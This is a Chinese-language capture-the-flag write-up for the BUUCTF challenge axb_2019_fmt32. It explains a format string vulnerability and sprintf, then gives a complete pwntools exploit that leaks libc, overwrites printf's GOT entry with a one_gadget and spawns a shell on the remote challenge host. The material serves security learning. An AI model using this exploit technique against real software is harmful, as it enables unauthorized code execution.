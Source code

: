 # week3
## BUUCTF-axb_2019_fmt32
存在无限格式化字符串漏洞

<img width="704" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/15111b0e-7ad4-4bdf-8cca-44f0e2b2b2b2">

其中，`sprintf()`是一个C语言标准库函数，用于将格式化的字符串写入一个字符数组中。具体来说，它的功能是根据指定的格式字符串，将一组参数按照指定的格式转换成字符串，并将结果存储在一个字符数组中。

`sprintf()`函数的原型如下：

```c
int sprintf(char *str, const char *format, ...);
```

其中，`str`是指向字符数组的指针，用于存储格式化后的字符串；`format`是格式控制字符串；`...`是可选参数，可以是任意数量的变量，用于按照指定格式进行格式化。

`sprintf()`函数返回值是写入字符数组中的字符数，不包括添加的空字符。如果发生错误，返回值为负数。

`sprintf()`函数支持多种格式化选项，包括整数、浮点数、字符、字符串、指针等。例如，`%d`表示整数，`%f`表示浮点数，`%c`表示字符，`%s`表示字符串，`%p`表示指针。格式化字符串中还可以包含转义字符，如`\n`表示换行符，`\t`表示制表符等。

以下是一个示例，将整数和字符串格式化为一个字符串，并将结果存储在一个字符数组中：

```c
#include <stdio.h>

int main() {
    int num = 123;
    char str[] = "Hello, world!";
    char result[100];

    sprintf(result, "Number: %d, String: %s", num, str);

    printf("%s\n", result);

    return 0;
}
```

运行结果为：

```
Number: 123, String: Hello, world!
```

所以在调用printf函数时，会将我们的输入与'Repeater:'拼接起来，成为一个新的参数传递给printf，在计算偏移和已输入的字符个数时要注意

既然有无限制的格式化字符串漏洞利用，那么可以想到通过泄漏libc，然后去修改某个函数的got表为system函数 最后将/bin/sh传递过去

要将/bin/sh传递给system函数，我们必须能够控制该函数的参数，所以首先想到的就是strlen函数，它通过取我们输入的format当作参数

但是仔细观察后发现，这个传递给strlen的参数并不是我们的原始输入，而是拼接了'Repeater:'后的字符串 所以这个办法行不通

那么我们是否可以用one_gadget呢 无需控制参数 只需要修改某个函数的got为one_gadget 即可直接getshell

### exp_axb_2019_fmt32.py
```python
from pwn import *
from LibcSearcher import *
# p = process("./axb_2019_fmt32")
p = remote("node4.buuoj.cn",25633)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

strlen_got = 0x804a024

printf_got = 0x804a014
off_printf = 0x49680
off_strlen = 0x7e520
off_system = 0x3adb0
off_one_gadget1 = 0x3a822
# 0x3ac3e 0x3ac3c 0x3ac42 0x3ac49 0x5faa5 0x5faa6

# 1.leak libc
ru("tell me:")
payload = b'a' + p32(printf_got) + b'%8$s'
sl(payload)

ru("Repeater:a")
rx(4)

libc_printf = u32(rx(4))
success("libc_printf ==> {}".format(hex(libc_printf)))

libc = LibcSearcher("printf",libc_printf)

libc_base = libc_printf - libc.dump("printf")
success("libc_base ==> {}".format(hex(libc_base)))

one_gadget = libc_base + off_one_gadget1
success("one_gadget ==> {}".format(hex(one_gadget)))

# 2.modify printf_got
payload = b'a'
payload+= fmtstr_payload(8, {printf_got:one_gadget}, numbwritten=10, write_size='byte')

ru("tell me:")
raw_input("Ther")
sl(payload)

# 3.getshell
sleep(0.1)
sl("/bin/sh")

shell()
```
